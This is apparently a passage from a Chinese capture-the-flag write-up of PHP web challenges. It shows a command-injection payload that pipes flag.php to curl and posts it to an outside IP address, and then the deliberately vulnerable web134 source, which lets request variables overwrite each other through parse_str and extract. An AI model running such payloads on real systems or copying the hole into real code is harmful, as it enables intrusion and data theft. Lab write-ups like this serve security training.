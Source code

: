 payload:

```
`$F `;cat flag.php | curl -X POST -d @- http://106.55.168.231:7777/
```

curl外带rce

![image-20250124143152342](assets/image-20250124143152342.png)



#### web134

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-14 23:01:06

*/

highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```
